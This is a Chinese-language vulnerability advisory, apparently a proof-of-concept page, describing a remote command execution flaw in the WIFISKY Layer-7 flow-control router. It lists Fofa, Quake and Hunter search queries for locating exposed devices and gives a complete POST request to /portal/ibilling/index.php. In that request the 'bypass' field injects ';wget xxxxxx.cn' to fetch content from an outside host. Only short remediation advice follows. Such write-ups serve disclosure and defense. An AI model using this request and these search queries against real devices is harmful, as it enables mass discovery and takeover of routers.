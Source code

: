 **漏洞描述**

WIFISKY7层流控路由器存在rce, index 接口存在一个命令执行漏洞，使得攻击者可以通过构造特定的请求远程执行恶意代码。此漏洞可能导致攻击者获取系统权限、执行任意命令，严重威胁系统的机密性和完整性。

**空间测绘**

测绘语法：

```
Fofa：title="WIFISKY 7层流控路由器"
quake：title:"WIFISKY 7层流控路由器"
hunter：web.title="WIFISKY 7层流控路由器"
```

**漏洞复现**

命令执行：

```yaml
POST /portal/ibilling/index.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

{"type":5,"version":2,"bypass":";wget xxxxxx.cn"}
```

**修复意见**

1、请联系厂商进行修复。 

2、在后端过滤用户输入字符。 

3、设置白名单访问。